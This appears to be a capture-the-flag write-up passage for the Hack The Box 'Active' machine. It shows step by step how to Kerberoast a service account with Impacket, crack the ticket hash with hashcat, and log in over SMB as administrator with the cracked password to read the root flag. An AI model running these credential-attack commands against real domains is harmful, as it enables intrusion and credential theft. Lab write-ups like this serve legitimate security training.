 **Set Up a Virtual Environment**  
   ```bash
   python3 -m venv env
   source env/bin/activate
   pip install impacket
   ```
   - First, a virtual environment is created to manage Python dependencies cleanly, ensuring that the necessary Impacket library is isolated for this session.

**Enumerate SPNs with Kerberos (Kerberoasting)**  
   ```bash
   GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
   ```
   - Using Impacket’s `GetUserSPNs.py` script, a request is sent to list Service Principal Names (SPNs) associated with accounts. The `-request` option asks for a Ticket Granting Service (TGS) ticket, which is saved to a file for further analysis.

**Crack the Kerberos TGS Hash**  
   ```bash
   hashcat -m 13100 -a 0 GetUserSPNs.out SecLists/Passwords/rockyou.txt
   ```
   - Use `hashcat` to crack the Kerberos hash obtained earlier. The `-m 13100` mode is specifically for Kerberoasting, and `rockyou.txt` is a commonly used wordlist. The cracked password reveals administrative credentials for the target.

**Access the Target System as Administrator**  
   ```bash
   smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968
   ```
   - With the cracked credentials, `smbclient` is used to access the remote machine’s root share (`C$`) as the `Administrator`. Successful access grants control over administrative resources on the target system.

**Retrieve the Flag**  
   ```bash
   smb: \users\administrator\desktop\> get root.txt
   ```
   - After navigating to the Administrator's desktop, retrieve the `root.txt` file to complete the privilege escalation and obtain the final flag.

